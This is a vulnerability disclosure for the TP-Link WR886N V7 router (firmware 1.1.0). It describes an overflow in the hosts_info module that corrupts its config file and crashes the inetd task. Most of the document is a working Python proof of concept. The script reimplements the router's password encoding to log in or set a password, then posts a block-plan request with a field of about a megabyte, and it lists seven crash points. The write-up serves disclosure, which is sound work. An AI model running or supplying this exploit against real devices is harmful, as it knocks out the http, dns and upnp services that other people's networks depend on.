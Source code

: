 # TP-Link WR886N V7 Inetd Task Dos  

**Vender**：TP-Link

**Firmware version**: 1.1.0

**Hardware version**: TL-WR886N 7.0

**Exploit Author**: lbp@galaxylab.org

**Vendor Homepage**: http://www.tp-link.com.cn/

**Hardware Link**:http://www.tp-link.com.cn/product_397.html

## Vul detail ##
In the router module `hosts_info`, user can setup host block plan with http post request. An normal request looks like below.

![](normal_post_request.png)

After setup host block plan, `hosts_info` module will save data to config file.

![](normal_config_file.png)

If we send request with long value in specific json key, it will overflow and break the `hosts_info` module config file. 

If the string long enough it will also crash the inetd task, this will stop most network services, such as http, dns and upnp.  
  

![](inetd_crash.png)

## POC

```python
import requests


def security_encode(a):
    c = "RDpbLfCPsJZ7fiv"
    b = "yLwVl0zKqws7LgKPRQ84Mdt708T1qQ3Ha7xv3H7NyU84p21BriUWBU43odz3iP4rBL3cD02KZciXTysVXiV8ngg6vL48rPJyAUw0HurW20xqxv9aYb4M9wK1Ae0wlro510qXeU07kV57fQMc8L6aLgMLwygtc0F10a0Dg70TOoouyFhdysuRMO51yY5ZlOZZLEal1h0t9YQW0Ko7oBwmCAHoic4HYbUyVeU3sfQ1xtXcPcf1aT303wAQhv66qzW"
    d = ''
    e = f = g = h = k = 187
    m = 187
    f = len(a)
    g = len(c)
    h = len(b)
    if f > g:
        e = f
    else:
        e = g

    for i in range(e):
        m = k = 187
        if i >= f:
            m = ord(c[i])
        elif i >= g:
            k = ord(a[i])
        else:
            k = ord(a[i])
            m = ord(c[i])
        d += b[(k ^ m) % h]
    return d


def get_token(password):
    print(security_encode(password))
    login_url = 'http://192.168.1.1/'
    login_data = {"method": "do",
                  "login": {
                      "password": security_encode(password)
                  }
                  }
    rsp = requests.post(login_url, json=login_data)
    rsp_json = rsp.json()
    if rsp_json['error_code'] == 0:
        return rsp_json['stok']
    # set password
    elif rsp_json['error_code'] == -40401:
        set_password = {
            "method": "do",
            "set_password": {
                "password": security_encode(password)
            }
        }
    rsp = requests.post(login_url, json=set_password)
    rsp_json = rsp.json()
    if rsp_json['error_code'] == 0:
        # get token again
        return get_token(password)


password = 'password'
burp0_url = "http://192.168.1.1/stok=%s/ds" % get_token(password)

buff_count = int(1.0 * 1024 * 1204)

burp0_headers = {"Accept": "application/json, text/javascript, */*; q=0.01", "Origin": "http://192.168.1.1", "X-Requested-With": "XMLHttpRequest", "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36", "Content-Type": "application/json; charset=UTF-8", "Referer": "http://192.168.1.1/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,zh-TW;q=0.6,ko;q=0.5", "Connection": "close"}
burp0_json = {
  "hosts_info": {
    "name": "00E04C6B3BF5_plan_rule_1",
    "table": "plan_rule",
    "para": {
      "mon": "1",
      "tue": "1",
      "wed": "1",
      "thu": "1",
      "fri": "1",
      "sat": "1",
      "sun": "1",
      "name": "AAAA",
      "start_time": "00%3A00",
      "end_time": "01%3A00"
    }
  },
  "method": "add"
}

# burp0_json['hosts_info']['para']['mon'] = "%s" % ('A' * buff_count)  # inetd crash point 1
# burp0_json['hosts_info']['para']['tue'] = "%s" % ('A' * buff_count)  # inetd crash point 2
# burp0_json['hosts_info']['para']['wed'] = "%s" % ('A' * buff_count)  # inetd crash point 3
# burp0_json['hosts_info']['para']['thu'] = "%s" % ('A' * buff_count)  # inetd crash point 4
# burp0_json['hosts_info']['para']['fri'] = "%s" % ('A' * buff_count)  # inetd crash point 5
# burp0_json['hosts_info']['para']['sat'] = "%s" % ('A' * buff_count)  # inetd crash point 6
burp0_json['hosts_info']['para']['sun'] = "%s" % ('A' * buff_count)  # inetd crash point 7

rsp = requests.post(burp0_url, headers=burp0_headers, json=burp0_json, timeout=3)
print(rsp.content)

```
